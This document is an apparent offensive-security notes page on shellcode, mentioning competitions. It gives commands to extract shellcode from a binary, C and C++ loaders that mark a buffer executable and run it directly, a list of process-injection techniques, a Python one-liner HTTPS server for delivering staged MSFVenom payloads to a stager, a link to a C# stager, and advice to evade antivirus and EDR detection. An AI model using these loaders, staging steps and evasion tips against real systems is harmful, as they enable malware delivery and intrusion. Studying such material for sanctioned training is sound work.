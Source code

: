 # Shellcode Creation
## Linux

Generating shellcode for a Linux operating system: Tips.

>[!note]
>When generating MSFVenom shellcode to be executed by a stager, use the `raw` format, as the shellcode will be downloaded directly into memory.

```shell
# Copy and save executable code as c-string. (Useful to convert slivers to shellcode, etc. when not using B64 or similar)

objcopy -j .text -O binary <compiled executable> <text section to save to (still bin)>
xxd -i <text section> 
```

```c
// Example code for Linux direct execution

#include <stdio.h>

int main(int argc, char **argv) {
    unsigned char message[] = {
        <shellcode goes here>
    };
    
    (*(void(*)())message)();
    return 0;
}
```

## Windows

Generating shellcode for a Windows operating system: Tips

```cpp
// Example code for Windows direct execution

#include <windows.h>
char stager[] = {
	<shellcode goes here> 
};
int main()
{
    DWORD oldProtect;
    VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
    int (*shellcode)() = (int(*)())(void*)stager;
    shellcode();
}
```

# Shellcode Injection Techniques
- Direct Injection
- Process Hollowing
- Thread Injection
- DLL Injection
Reference THM for example code. Most of these techniques are out of scope for competitions. 

# Staged Payloads
We can generate staged payloads with [[MSFVenom]]. 

This means we are going to have to serve the payload ourselves as well. This example shows an HTTPS stage listener. 
```shell
# Spin up an HTTPS server for serving our shellcode to the stager

openssl req -new -x509 -keyout <certificate outfile> -out <same outfile as before> -days 365 -nodes

python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='<certificate we just generated>',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

An example C# stager can be found here: https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs. However, you should be able to perform HTTPS requests in your language of preference to fetch the raw shellcode yourself. 

>[!danger] Detection Risk
>Shellcode is inherently risky. Use the tactics described in [[Evasion]] to help your code avoid detection by AV/EDR/XDR.
